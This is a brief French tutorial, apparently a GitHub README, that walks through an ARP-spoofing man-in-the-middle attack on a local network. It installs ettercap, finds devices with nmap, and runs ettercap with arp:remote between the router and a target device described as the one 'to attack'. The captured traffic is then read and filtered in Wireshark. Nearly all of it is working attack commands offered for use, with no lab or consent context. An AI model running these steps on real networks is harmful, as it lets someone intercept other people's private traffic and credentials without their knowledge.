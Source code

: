 ## 1. Installation de ettercap cli

```bash
apt install ettercap-text-only
```

## 2. Scanner le réseau privé pour y voir tous les appareils connectés

```bash
# remplacer 192.168.1.1 par l'IP du routeur (box internet)
nmap -sn 192.168.1.1/24
```

## 3. Démarrer l'attaque MITM avec ettercap

```bash
# la première IP est celle du routeur
# la seconde, celle de l'appareil à attaquer
ettercap -T -S -i wlan0 -M arp:remote /192.168.1.1// /192.168.1.10//
```

## 4. Voir le traffic intercepté

```bash
wireshark
```

## 5. Filtrer le traffic reçu dans wireshark (depuis l'application wireshark)

```bash
# ne voir que les requêtes de l'IP spécifiée (ici la cible de l'attaque)
ip.addr == 192.168.1.10

# ne voir que les requêtes utilisant le protocol HTTP
http
```
